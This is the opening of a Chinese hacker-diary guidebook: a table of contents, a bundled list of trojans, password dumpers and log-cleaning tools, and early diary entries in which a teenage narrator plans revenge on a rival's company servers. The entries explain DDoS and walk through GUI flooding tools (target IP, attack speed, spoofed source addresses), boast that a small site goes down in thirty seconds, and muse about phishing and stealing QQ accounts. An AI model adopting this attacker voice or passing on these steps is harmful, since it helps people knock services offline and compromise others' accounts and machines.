## 黑客日记精装版

作者：吴树丰·战神

黑客手册制作

## 目录

## CONTENTS

## 第一章：小D服务记

- 日记一：今天我也生气
- 日记二：菜鸟最菜但却最管用的攻击术
- 日记三：有工具就是爽
- 日记四：几款攻击器大会师
- 日记五：第一次攻击我失败了

# 第二章：我的拜师生涯

- 日记六：开始拜师了
- 日记七：孙武！？
- 日记八：X-WAY2.6
- 日记九：继续X-way
- 日记十：黑匣子
- 日记十一：学会扫描没商量
- 日记十二：又失败了
- 日记十三：ping
- 日记十四：观音的IPC$金刚圈
- 日记十五：黑账怪客客
- 日记十六：哪吒三太子的风轮：telnet
- 日记十七：实例入侵
- 日记十八：WINDOWS2000查点
- 日记十九：netcat
- 日记二十：魔僧的婆娑
- 日记二十一：魔法白龙马

## 第三章：会破还要会防

- 日记二十二：服务器防D很重要
- 日记二十三：分析扫描结果
- 日记二十四：服务器溢出漏洞分析总结
- 日记二十五：缓冲区溢出攻击的防范方法
- 日记二十六：反入侵

## 第四章：社会工程学攻陷

- 日记二十七：原来欺骗也是攻击
- 日记二十八：我成功了
- 日记二十九：再次成功
- 日记三十：我也能防忽悠

# 第五章：欲擒故纵——捉迷藏

- 日记三十一：没事抓肉鸡玩
- 日记三十二（上午）：蜜罐技术探索
- 日记三十三（下午）：深刻地了解

# 第六章：Cookies攻击

- 日记三十三：Cookie基础知识介绍
- 日记三十四：Cookie解析
- 日记三十五：又成功了
- 日记三十六：用基础知识进行Cookies欺骗
- 日记三十七：我要养马

## 第七章：消除痕迹——给入侵披盖战袍

- 日记三十八：清除入侵痕迹
- 日记三十九：清除入侵日志记录
- 日记四十：擦PP
- 日记四十一：如何控制黑客入侵！

## 第八章：木马菜鸟速递营

- 日记四十二：引言
- 日记四十三：神气儿
- 日记四十四：流萤V2.3正式版
- 日记四十五：远程控制Spook 6.1版
- 日记四十六：PCVIEW 2006
- 日记四十七：超级进口小马C.I.A
- 日记四十八：随意门2006
- 日记四十九：SlimFTPd微型FTP木马
- 日记五十：粉色倩影2.5
- 日记五十一：语音视频任我行
- 日记五十二：最新灰鸽子破解版
- 日记五十三：QQ远程控制1.0
- 日记五十四：冰河2005[新年版]
- 日记五十五：管理型反弹型木马——NCPH远程控制
- 日记五十六：木马学习总结

后记

## 木马手册相关软件

△致歉声明：手册中涉及到的DDoS（拒绝服务）工具由于危害性比较大，所以本光盘均未提供，望读者原谅！

- SuperScan 4.0：速度超快、功能强大的端口扫描工具。
- Sam Spade：Windows平台上的免费网络查询工具。
- X-way2.6：多线程扫描工具。
- S扫描器：针对微软ms04045漏洞出的一个扫描器。
- OpenTelnet V1.1：完全用批处理写的远程开启telnet服务的工具。
- WinShell v5.0：Windows平台上精巧的Telnet服务器软件。
- pwdump3：用来抓取NT、WIN2000的用户密码文档的工具。
- NBTSCAN：扫描Windows网络NetBIOS信息的小工具。
- netcat：被誉为网络安全界的“瑞士军刀”。
- lc4：l0pht的nt口令破解器工具。
- 魔法远程控制系统：强大的远程控制软件。
- X-Scan V3.3：强大的扫描软件！
- 流光5.0：小榕的功能强大的多功能扫描器。
- xsniff：命令行下的嗅探器。
- IECookiesView：可管理IE浏览器Cookies。
- 仙剑 + 武斗 + 冰风 + 铁甲：加壳工具集合。
- elsave：事件日志清除工具。
- 神气儿：远程控制类木马。
- 流萤V2.3正式版：优秀的国产反弹型远程控制软件。
- 远程控制Spook 6.1版：反弹类型的远程控制软件。
- Pcview 2006：功能强大的远程控制软件。
- 超级木马C.I.A [1.3汉化版 + 英文原版]：一款超级木马，远程控制可关闭网络的杀毒软件！
- 随意门2006：该版本增加了另外一个服务端，总共有两种服务端。
- SlimFTPd微型FTP木马（枫叶网络汉化版）V3.17：微型的FTP木马。
- 粉色信鸽V2.5：典型的C/S远程控制类软件。
- 语音视频任我行V2.0：软件能强制打开远程主机的视频，进行监视。
- 最新灰鸽子破解版：传说中的强大木马！
- QQ远程控制1.0：完全使用QQ协议，通信时使用QQ服务器端口，可躲过防火墙的数据包过滤设置。
- 冰河2005新年版：经典老马。
- ncph远程控制软件测试版：完全免杀，支持断点续传、最小服务端，采用纯隧道技术全面提升链接速度……

## 美化软件

- 加密金刚锁V7.8.0.2：功能强大的文件和文件夹加密软件。
- 屏幕录像专家V6.0：专业的屏幕录像制作工具。
- 不常用加壳软件：生僻壳加壳软件。
- 冰狐浪子网页木马：采用js脚本编写的木马生成器。
- 无敌边锋浏览器1.58：免费、不带插件的无敌边锋浏览器。
- FLASHFXP V3.0：很不错的ftp下载工具。
- Flash MX 2004 V7.01简体中文版：可视化的网页设计和网站管理工具。
- 20个网游木马：玩黑，不能没木马，20个很不错的网游木马。
- Windows XP的“进补”护士——WinUpdatesList：可显示所有已安装在你的本地计算机上的Windows updates（Service Packs和Hotfixes）。
- 网际快车（FlashGet）V1.71简体中文版：网际快车通过把一个文件分成几个部分同时下载，可成倍提高下载速度。
- RealPlayer V10.5 Build 6.0.12.1483简体中文版：在网上收听收看实时Audio、Video和Flash的最佳工具。
- 小蔡上门（家庭版）2.00e：一款模拟专家真人上门电脑故障诊断、排除和维修的软件。
- 硬盘数据修复工具包：强大的硬盘数据修复工具包，包括分区修复、格式化修复、MBR损坏修复、文档误删修复等。

## 休闲屋

动漫  
《死亡代理人》第8话：圆顶城市罗每得是人和机器人共存的世界，是以感情和不必要的观念管理的乐园，这样的乐园城市发生了诡异的杀人事件，追查此事的是市民情报局年轻女警莉露，而她的周围产生了称作awakening的谜样线索，寻找这些线索的夜晚，莉露突然遇到怪人的袭击，这些怪物到底是什么。

[MUSIC] Usher——Confessions Special Edition：无疑问，这张专辑是25岁的Usher出道十年以来商业上最成功的一张专辑，同时也是最成功的黑人R&B男歌手的个人专辑之一。这张专辑不仅将Usher此前的各种个人纪录统统打破，同时也改写了整个黑人R&B音乐专辑单周销售的历史最高纪录，这张专辑首周109万6千张的傲人成绩是自从2001年以来最高的单周销售数字。

- 心情图文：当孤独已经变成一种习惯
- MTV：超酷3D MV，韩国MV——Anyclub
- 小说：科幻小说集锦
- 超酷壁纸：TINKUPURI Windows主题[1920×1200宽屏专辑]、Windows XP主题壁纸[1600×1200][1280×1024]、XP壁纸[蓝天白云]、卡通电影壁纸选辑。

## 黑客日记

## 序言

我想黑呀！我想黑呀！我要黑了那个服务器！“迷梦”一声大叫。哎！！！原来又是个梦！（不好意思，呵呵，出场前，来个自我介绍。我就是迷梦。今年才16岁。没事的时候就是喜欢看MM！）自己真的是太想学黑客技术了。自从上次自己的服务器被那个叫后羿的小子黑了以后，我就发疯学习黑客技术，来保护自己。正如在风起云涌的江湖一样，又有多少江湖儿女愿意卷进纷纷扰扰的纷争？乱世之中，更多的是要学好武艺，保护自己。在网络这个江湖里也一样。虽然我自己不想去学这个，但是上次自己的服务器被黑后，我大哭了3天3夜。不次于当年孟姜女哭长城。那是何等的伤心，岂是一字能说得清楚。那一次据不完全估计，我损失的文件、重要资料以及投注的感情损失，合人民币约88W879元！于是那次之后，我决定“文武双修”，来保卫自己的“家机”！但是那么多的黑客书籍迷梦看过后，感觉还是晕晕的。为什么呢？因为我笨！（菜鸟说：笨家，你有多菜啊！我很负责地告诉了他，我菜得自己都上不了桌。）

我笨，但我很勤奋。自那次后，我就开始看书。我左看，右看，上看，下看，看了很多的黑客宝典。最终我发现，那些宝典不是太简单，就是太深奥。令我等菜鸟实在无法探它里面的精妙法门。于是我就走名山，访大川，跟了很多名师学习技术。探古洞，程名书。最终我领悟到了，原来黑这个，最最关键的是不要把人家的服务器给控制了，那就一切OK了。

光阴似箭，转眼半年就过去了。我把自己的学习过程写成了日记，奉献给大家，方便菜鸟学习。另外各位大虾看后，如有不正确之处，也请多多指教。因为我很早就领悟到了服务器的重要性，所以我的学习也是围绕着服务器写的。

## 课堂日记

### 第一季：小D服务站

| 章节 | 页码 |
|---|---|
| 日记一：今天我也生气 | 8 |
| 日记二：菜鸟最菜但却最管用的攻击术 | 9 |
| 日记三：有工具就是爽 | 10 |
| 日记四：几款攻击器大会师 | 15 |
| 日记五：第一次攻击我失败了 | 17 |

### 日记一：今天我也生气了

上古九年 89囧 星期九 老大天天很生气

想想就叫我生气，那个叫后羿的小子有什么了不起？难道黑掉了九个太阳就厉害了吗？真是的！自己也曾经黑过很多服务器，可是为什么最后还让后羿把自己的服务器给黑了呢？为什么？为什么？这一切是为了什么呢？听说他最近还当了一个模特公司网络部门的主管。哼，既然这样，我就要努力把后羿负责的服务器给弄垮了，攻击进去，到时候叫他在老板面前丢脸。

> **菜鸟恶补：** 服务器是计算机的一种，它是网络上一种为客户端计算机提供各种服务的高性能计算机，它在网络操作系统的控制下，将与其相连的硬盘、磁带、打印机、Modem及各种专用通信设备提供给网络上的客户端共享，也能为网络用户提供集中计算、信息发布及数据管理等服务。它的高性能主要体现在高速的运算能力、长时间的可靠运行、强大的外部数据吞吐能力等方面。

如果自己能得到他们公司服务器的管理权限，就代表着会有大把大把的RMB，而且还能得到他们公司那些个PLMM们倾慕的目光。控制了它，可以用来刷QB，可以用来做钓鱼网站，窃取他们公司那些PLMM的QQ号，甚至可以把他们公司老板的极品QQ：88888888盗来。另外还可以趁这个机会饲养数以亿计的肉鸡。到时候天河再搞三界运动会，自己养的这些肉鸡，就可以去和孙悟空那个傻猴子养的那几千匹木马做个比赛了。想想就叫我激动啊！

任何有目的的攻击都是有准备的，要想扳倒后羿，就要从他的日常管理工作上下手。要想扳倒他，自己就必须先接触服务器。现在我从早学到晚的都是服务器的相关知识。想当年很多民间网管都碰到过这样一些难堪的事，比如因为服务器的安全漏洞问题，导致其中数据的丢失、权限被非法取得，或者被那些刚刚懂得一点点网络安全知识的菜鸟们指出服务器有这样那样的漏洞，被搞得很没面子。比如我就是因为菜，才被后羿那小子乘虚而入进了我的服务器，还大言不惭地在求职简历上说，曾用5分钟入侵了一个服务器。真是可气。但想想，只要自己学学，就有机会把后羿给扳倒，我就高兴了。即使是从头开始学，再辛苦也值得。

既然要搞服务器，我们就要对服务器达到真正的了解。这就是兵法：知己知彼，才能百战不殆。正好前几天我给太上老君送了一块糖（这可是个大贿赂啊！），太上老君叫我没事可以到天庭的图书馆去学习，哈哈！那个老头要知道我去做什么，还不得后悔死啊！因为老头善良得很，万事和为贵。

纵观他们公司的服务器现状，除了几个专业部门的服务器设置得天衣无缝之外，其他的都是松松垮垮，很多的服务器管理员都对这个管理得很松散，一些常见的漏洞根本就不打补丁，给很多的小菜们、小黑们不少实践的机会。其实不是这些服务器管理员的技术水平不高，很多是因为不是自己的东西，抱着只是在给公司打工、给网吧打工的心态，所以对于服务器的安全设置只是应付而已。不过，即使设置得再好，也没有绝对的安全，只要肯动动脑，漏洞总是会被发现的。

好了，天都黑了，本想再写会儿，看来是不行了，明天继续写日记吧！

### 日记二：菜鸟最菜但却最管用的攻击术

上古元年 49日 星期N 嫦娥在对我笑

既然是针对服务器攻击，我们就要想个办法。对我们菜鸟来说，要叫我入侵了这个服务器，然后提权，对我来说就好比是讲天书。虽然那样很安全，那样取得服务器就是你自己的肉鸡了，但是我做不到啊！因为我刚入门，我很菜啊！（菜鸟：你昨天日记里可是说你也很厉害的啊？）但是不是说我们是菜鸟，就应该仰视那些个所谓的高手呢？他们之所以被称为高手，也就是比我们早看过几天书，早上过几次电脑，早知道了什么是网络安全。只要我们肯努力学习，一定会超越他们的。

没什么大不了的，虽然我们是菜鸟，我们一样可以攻击他们，管保叫他们有招架之心，无还手之力。或者说他们连招架都招架不住。也许有的菜鸟看到我的日记会认为我是在吹牛，其实嘛，一点没吹啊！不管做什么事情，有一个好的工具，做什么事情都会事半功倍，就如同孙悟空那个死猴子有了如意金箍棒后神通更大一样，这一点我很早的时候就想到过（可以追溯到我1岁的时候）。我左找右找，最终找到了“利器”。是什么呢？那就是DDoS攻击。

于是今天上午俺系统地研究了关于服务器的攻击工具，但是对服务器攻击之前，是必须先知道其原理，否则就是知其然，而不知其所以然（小编：“不要盲目地只做工具hacker，要学会理论和实践相结合！”），那样不和那些毛头小子没什么区别了吗？于是我们细研究了服务器攻击工具的原理。

> 菜鸟恶补：进入21世纪以来，网络遭受攻击事件不断发生，全球许多著名网站相继遭到不明身份的黑客攻击，去年2005年即时通信软件的老大人物腾讯公司也两次遭受了攻击！在这些攻击行为中，黑客摒弃了以往常常采用的更改主页这一对网站实际破坏性有限的做法。取而代之的是，在一定时间内，彻底使被攻击的网络丧失正常服务功能，这种攻击手法为DDoS，即分布式拒绝服务攻击（Distributed Denial of Service）。在早期，拒绝服务攻击主要是针对处理能力比较弱的主机，如个人PC或是窄带宽连接的网站，对拥有高带宽连接、高性能设备的网站影响不大，但是现在的网络现状是高端网站高枕无忧的局面已不复存在。与早期的DoS攻击由单台攻击主机发起、单兵作战相比，DDoS攻击所实现的是借助数百，甚至数千台被植入攻击守护进程的攻击主机同时发起的集团作战行为，在这种几百、几千对一的较量中，对网络服务提供商的破坏力是空前巨大的。

就DDoS来说，技术水平是很低的，甚至可以说，是没有任何技术含量的，无非就是靠着人多力量大而已。其实我刚开始看到这个概念时真的是很不屑一顾。虽然我知道自己很菜，如果不菜的话，我早把月亮给黑下来了，自己也尝一下出名是什么感觉！此外做这个事情本来就应该偷偷摸摸的，太大张旗鼓了不好。因为一大张旗鼓了，就容易泄露机密，就会提前失败！但是如果自己控制了成千上万的肉鸡，一起攻击后羿负责的站点服务器的话，那么就是有十个后羿，我也照样整死他，Yeah！所以关于DDoS攻击的知识我要学，而且要学好！

> **菜鸟恶补：** 分布式拒绝服务攻击（DDoS）是目前黑客经常采用而难以防范的攻击手段。简单地讲，拒绝服务攻击就是用超出被攻击目标处理能力的海量数据包来消耗可用系统、带宽资源，致使网络服务瘫痪的一种攻击手段。

正如佛法无边，变化万千。DoS的攻击方式有很多种。最基本的DoS攻击就是利用合理的服务请求来占用过多的服务资源，从而使合法用户无法得到服务的响应。总的来说，就是在很短的时间内向一台主机发送大量的数据包，然后使服务器超负荷工作，使正常用户不能正常访问，就达到了我们攻击的目的了。这就是DoS的原理，是不是很简单？如果说计算机与网络的处理能力加大了10倍，用一台攻击机来攻击不起任何作用的话，攻击者使用10台攻击机同时攻击呢？用100台呢？DDoS就是利用更多的傀儡机来发起进攻，以比从前更大的规模来进攻受害者。想到这里，我就高兴，原来平时多养些肉鸡还是没坏处的啊！早知道禽流感到的时候我多弄点肉鸡啊！原理大家已经很清楚了，相信大家也一样很想知道经过DDoS攻击后的目标服务器会是什么状况吧？想知道什么样的工具最好用吗？想的话，就继续看我的下篇日记啊！

### 日记三：有工具就是爽！

工欲善其事，必先利其器。要想达到目的，我们要寻找上古时期的神兵利器。无论我们有多么的菜，对网络攻击有多么的不了解、多么的不熟悉！只要你有了这几款利器，看哪个服务器不顺眼，我们就攻击一下它，绝对没商量！现在的科技真是发达，但是要说我吧，如果不是看后羿那么不顺眼的话，我根本不需要学习这么多的知识，因为现在的搜索引擎实在是太发达了！但是既然我要一个过程，我就再写下日记吧！

攻击工具一个字，那叫个多啊！只要你在搜索引擎里搜索，大大小小的、五花八门的攻击工具到处都是，各个站点都能下载。要说哪些好用些，我逢蒙还真拿不准，总之是各有千秋，都很不错。大家都知道原理，其实这个攻击工具简单地说就是个制造垃圾并把垃圾汇向目标的机器。具体好不好使，要看你的目标有多么的强。如果目标是个“小水瓶”，那么你轻易就能用这个工具把它给搞定；如果目标是个“大水桶”，那么你就要费些心思了。不过我们的菜鸟一样不用怕，我们可以请N多菜鸟一起来使用这个工具，集中火力攻击目标，不怕它不瘫痪！

菜鸟们都喜欢傻瓜工具，其实我也一样，傻瓜工具用起来就是方便、快捷。你不用怎么太费事，就能帮你把事情办完。好了，废话不说了，我们来看工具吧！“DDoS强力killertop版”（图3-1）。为什么叫这个名字呢？当然是因为它的强大功能。



图3-1

界面给人一种清清爽爽的感觉。4个功能模块，分别是新建、停止、删除、退出。没有其他软件那样繁冗的设置，真正专业精致的小工具。从主界面可以看出，可以建立9个目标，点击“新建”（图3-2）。



图3-2

在“目标”后填上你要攻击的目标，想攻击哪个目标就在这里填上目标的IP。端口是80，速度可以调节，速度高的话，那么目标机器就会在很短的时间接收到大量的数据流，最终达到攻击效果。下面是伪造源信息，因为任何攻击者都不想被对方查出来是哪里攻击的。因为麻烦事越少越好，谁也不想惹那么多的麻烦事啊！伪地址和伪端口如果你也像逢蒙那么懒的话，就可以设置成随机！

在任何时候，国内的黑客都没放弃过反击外国的反势力黑客。从早期的中美黑客大战到后来的每逢节日就会打起的各个战役，DDoS攻击工具无疑在其中起到了很大的作用。而在其中的各个活动里，各个组织各个站点的参加都带了浓厚的组织色彩，很多次攻击都是一个站点有自己的攻击工具。这个即将要出场的小DDoS软件就是某个站点04年8·1反击战攻击小日本的DDoS软件。软件的名字叫“终结者”。名字起得很酷，软件的实力也绝对不凡。

## 黑客自记

下载并运行可以看到，它比上面介绍的攻击软件界面还要简单，还是很清爽的一个界面（图3-3）。

只有三个功能模块，分别是“新建攻击”“激活线程”和“退出”。点“新建攻击”，就会进入“攻击属性设置窗口”（图3-4）。



图3-3



图3-4



图3-5

在攻击目标的位置填上要攻击的目标IP，下面是伪造的源地址和端口。

这个就根据自己的需要来设置了！另外，使用这个软件对计算机性能要求格外高，否则你攻击不成，还会遭到反噬啊！一般的小网站，3个人一起攻击，如果这个网站无硬件DDoS防火墙，一般30秒就能看到明显效果。当你再次访问这个网站时，根本就打不开该网站。

既然今天我心情这么高兴，就再学习一款经典的DDoS工具——Autocrat。Autocrat是一款基于TCP/IP协议的DDoS分布式拒绝服务攻击工具，它运用远程控制方式让您轻松联合多台服务器进行DDoS攻击。

下载回来的Autocrat包括4个文件（图3-5）。图中的前3个属于服务端，后一个属于控制端。

- Server.exe —— 服务器端，这个不要在自己机器运行，否则你的机器一定会重启的啊！
- Client.exe —— 控制端，就用它操作Autocrat了。
- Mswinsck.ocx —— 控制端需要的网络接口。
- Richtx32.ocx —— 控制端需要的文本框控件。

运行Client.exe（图3-6），界面还算PP。

